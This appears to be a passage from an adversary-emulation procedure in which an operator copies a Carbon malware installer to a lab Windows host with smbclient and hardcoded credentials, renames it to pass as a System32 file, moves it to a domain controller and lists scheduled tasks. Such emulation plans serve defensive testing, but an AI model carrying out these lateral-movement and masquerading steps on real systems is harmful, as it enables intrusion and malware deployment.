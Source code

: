 
### ☣️ Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy the
Carbon installer executable to Windows host, `hobgoblin`.

```bash
cd /opt/day1/turla/Resources/payloads/carbon/
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.20.102/C$ -c 'put carbon_installer_2.exe Windows\System32\wmimetricsq.exe'
```

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)`
as `Gunter`.

* Open File Explorer and browse to `C:\Windows\System32`. Order the files by date.

* Open an Admin Command Prompt. Use the following credentials if prompted:

| Username   | Password |
| :--------: | :---------------: |
| skt\frieda | Password3! |

:arrow_right: Minimize the RDP session to `hobgoblin` and start a new RDP
session to `bannik (10.20.10.9)` as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Open Microsoft Edge.

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` and
from the Admin Command Prompt, copy the 2nd Carbon installer to `bannik (10.20.10.9)`:

```bat
move C:\Windows\System32\wmimetricsq.exe \\bannik\C$\Windows\System32
```

:arrow_right: In your RDP session to `bannik (10.20.10.9)`, open File Explorer
and browse to `C:\Windows\System32`. Order the files by date.

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)`.

* From the Admin Command Prompt, execute the following to enumerate schtasks on
the domain controller:

```bat
schtasks /query /S bannik /U skt\Frieda /P Password3!
```

* :heavy_exclamation_mark: Verify that `\Microsoft\Windows\Customer Experience
Improvement Program\Consolidator` task appears in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `Customer Experience Improvement Program`
  * The output should contain:
>
* > ```text
    > Folder: \Microsoft\Windows\Customer Experience Improvement Program
    > TaskName                                 Next Run Time          Status         
    > ======================================== ====================== ===============
    > Consolidator                             2/24/2023 12:00:00 AM  Ready          
    > UsbCeip                                  N/A                    Ready      
    >    ```
